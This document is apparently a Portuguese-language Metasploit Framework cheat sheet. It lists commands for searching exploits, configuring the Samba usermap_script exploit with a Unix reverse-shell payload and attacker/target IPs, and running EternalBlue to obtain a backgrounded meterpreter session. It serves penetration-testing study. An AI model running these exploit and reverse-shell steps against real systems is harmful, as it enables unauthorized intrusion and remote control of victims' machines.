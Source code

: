 # Comandos básicos do Metasploit-Framework

## Listar base de exploits do Kali Linux

$searchsploit <name service> [smb, dns, http, smtp, ftp, Apache, ProFTPd, vsftpd, samba, etc]

## Diretório do Metasploit-Framework

$ls -l /usr/share/metasploit-framework

## Run Metasploit-Framework

$sudo service postgresql start

$sudo msfdb init

$sudo msfconsole

msf > db_status

msf > help

msf > help search

msf > history

msf > show [auxiliary, exploits, payloads, options, targets, advanced, encoders, nops]

msf > search scanner

msf > search name:mysql

msf > search type:exploit platform:windows

msf > search type:exploit rank:great

msf > search cve:2022 platform:windows type:exploit

msf > grep http search oracle

msf > search type:exploit usermap_script

msf > info exploit/multi/samba/usermap_script

msf > use exploit/multi/samba/usermap_script

msf exploit(multi/samba/usermap_script) > help

msf exploit(multi/samba/usermap_script) > info

msf exploit(multi/samba/usermap_script) > show -h

msf exploit(multi/samba/usermap_script) > show targets

msf exploit(multi/samba/usermap_script) > show options

msf exploit(multi/samba/usermap_script) > show payloads

msf exploit(multi/samba/usermap_script) > set RHOST IP_Address_Target

msf exploit(multi/samba/usermap_script) > set PAYLOAD payload/cmd/unix/reverse

msf exploit(multi/samba/usermap_script) > set LHOST IP_Address_Local_Host

msf exploit(multi/samba/usermap_script) > unset PAYLOAD

msf exploit(multi/samba/usermap_script) > unset all

msf exploit(multi/samba/usermap_script) > run

msf exploit(multi/samba/usermap_script) > back

msf > jobs

msf > kill 0

msf > sessions -l

msf > connect 192.168.1.123 23

msf > exit

## Run Exploit Sessions in Backgroung

msf exploit(windows/smb/ms17_010_eternalblue) > exploit

meterpreter > background

msf exploit(windows/smb/ms17_010_eternalblue) > sessions

msf exploit(windows/smb/ms17_010_eternalblue) > sessiosn -i 1

meterpreter >
